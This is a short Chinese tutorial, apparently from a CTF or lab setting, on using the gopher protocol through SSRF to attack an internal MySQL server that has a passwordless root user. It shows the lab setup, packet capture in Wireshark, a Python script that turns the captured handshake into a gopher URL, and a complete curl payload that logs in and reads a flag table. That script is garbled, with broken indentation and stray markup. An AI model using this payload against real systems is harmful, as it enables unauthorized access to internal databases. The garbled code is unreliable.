


#### gopher 攻击内网mysql

> MySQL有密码和无密码的认证方式不一样，无密码认证时直接发送TCP/IP数据包即可访问，有密码数据包中存在加盐加密。如果内网中的mysql数据库存在无密码的用户，可结合gopher协议进行攻击。

首先配置数据库，kali默认安装的为MariaDB，配置路径与mysql不同；

```
#进入mysql命令行，设置无密码：
SET PASSWORD FOR root@localhost=PASSWORD('');
#修改配置文件：
vim /etc/mysql/mariadb.conf.d/50-server.cnf，添加skip-grant-tables 
```

在kali下打开wireshark，监听`any`网卡

执行命令

```
mysql -h127.0.0.1 -uroot -p#必须指定-h，否则流量不走网卡，无法抓取
select flag from ssrf.flag;
exit; 
```

筛选出mysql数据包


跟踪TCP流，选取request请求，并显示为原始数据



编码为gopher协议格式

```
#encoding:utf-8

def result(s):

a=[s[i:i+2] for i in xrange(0,len(s),2)]#两两一组

return “curl gopher://127.0.0.1:3306/_%” + “%”.join(a) `if **name** == ‘**main**’:

import sys

s=sys.argv[1]

print result(s)` 
```

得到payload

```
curl gopher://127.0.0.1:3306/_%ae%00%00%01%85%a6%3f%20%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%30%33%38%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%16%00%00%00%03%73%65%6c%65%63%74%2a%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%01%00%00%00%01 --output - > mysql.txt 
```

使用strings命令读取mysql.txt，获得输出结果

```
strings mysql.txt 
```

